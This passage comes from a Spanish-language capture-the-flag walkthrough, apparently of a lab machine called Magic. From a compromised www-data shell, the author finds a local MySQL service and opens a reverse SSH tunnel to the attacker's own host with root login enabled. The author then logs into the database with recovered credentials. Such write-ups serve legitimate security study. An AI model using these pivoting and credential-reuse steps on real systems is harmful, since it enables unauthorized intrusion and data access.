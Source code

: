 Rápidamente intento loguearme en mysql pero al parecer no esta instalado.

```console
www-data@ubuntu:/var/www/Magic$ mysql

Command 'mysql' not found, but can be installed with:

apt install mysql-client-core-5.7   
apt install mariadb-client-core-10.1

Ask your administrator to install one of them.
```
Si revisamos los puertos locales.

```console
www-data@ubuntu:/var/www/Magic$ netstat -nat                 
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
```
Vemos que tenemos `mysql` ejecutándose de manera local, por lo que podemos nosotros crear una regla de port forwarding para poder tunelizar un puerto local propio con el puerto 3306 de la máquina y así lograr la comunicación para poder acceder a la base de datos de mysql.

## Port forwarding.

Inicio mi servicio SSH.

> **Nota:** Asegurate de tener permitido el logueo como root.

```console
intrusionz3r0@Kali:~$ service ssh start
intrusionz3r0@Kali:~$ grep "PermitRootLogin" /etc/ssh/sshd_config | head -n 1
PermitRootLogin yes
```
Creo la regla de port forwarding.
```console
www-data@ubuntu:/var/www/Magic$ ssh -R 3333:127.0.0.1:3306 root@10.10.14.7
```

Ahora si podemos loguearnos con las credenciales que encontramos anteriormente.

```console
intrusionz3r0@Kali:~$ mysql -h 127.0.0.1 -P 3333 -utheseus -piamkingtheseus  
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 2191
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Magic              |
+--------------------+
2 rows in set (0.191 sec)

MySQL [(none)]> use Magic;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```